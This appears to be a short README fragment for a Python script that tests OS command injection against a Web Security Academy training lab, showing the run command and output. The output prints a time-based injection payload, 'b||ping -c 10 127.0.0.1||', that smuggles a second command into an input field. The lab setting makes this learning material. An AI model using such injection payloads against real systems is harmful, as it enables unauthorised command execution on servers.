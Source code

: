 ### USAGE :
```bash
python3 cominj2.py https://ac041faf1e98ea44c038053c00a8006d.web-security-academy.net/
```
Output:
```
delay =  10.767915487289429
Attack succcessful with Testing Payload : b||ping -c 10 127.0.0.1||
```
